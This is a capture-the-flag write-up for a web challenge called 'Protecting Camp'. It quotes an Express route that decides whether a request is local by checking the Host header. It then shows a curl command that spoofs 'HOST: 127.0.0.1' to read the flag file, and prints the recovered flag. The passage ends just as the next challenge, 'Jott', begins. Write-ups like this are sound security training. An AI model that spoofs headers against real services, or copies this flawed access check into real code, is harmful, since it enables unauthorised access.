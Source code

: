 # Protecting Camp - Easy
## Description
<sup>Author: @soups71</sup><br>

I made a small site to keep a list of things I need to buy to keep me safe before I go camping, maybe it's keeping some other things safe too!

Psst... Snyk can help solve this challenge! Try it out!

Press the Start button in the top right to begin this challenge.
Connect with:
	http://challenge.ctf.games:31777
**Attachments:** [protecting_camp.zip](/assets/files/protecting_camp.zip)
## Solution
`index.js` inside `protecting_camp.zip`
```js
app.get('/api/flag',  (req, res) => {
    var url = req.protocol + '://' + req.get('host') + req.originalUrl;
    try{
        parsed = parseUrl(url)
        if (parsed.resource != '127.0.0.1'){
            res.send("Hey... what's going on here\n");
        }else{
            fs.readFile("./flag.txt", 'utf8', (err, data) => {
                if (err) {
                    res.send("There was an error and this is sad :(\n")
            
                }else{
                    res.send(data+"\n")
                }
            });
    }} catch (error) {
        res.status(400).json({ success: false, message: 'Error parsing URL' });
    }   
});
```
If I request `/api/flag`. I get this response.
```bash
$ curl http://challenge.ctf.games:31777/api/flag     
Hey... what's going on here
```
So I need to trick a website that the request comes from localhost according to `if (parsed.resource != '127.0.0.1')`.
```bash
$ curl -H 'HOST: 127.0.0.1' http://challenge.ctf.games:31777/api/flag
flag{d716dd8ab70bbc51a5f1d0182c84bcc8}
```

> Flag: flag{d716dd8ab70bbc51a5f1d0182c84bcc8}
--- 
# Jott - Easy
## Description
<sup>Author: @HuskyHacks</sup><br>
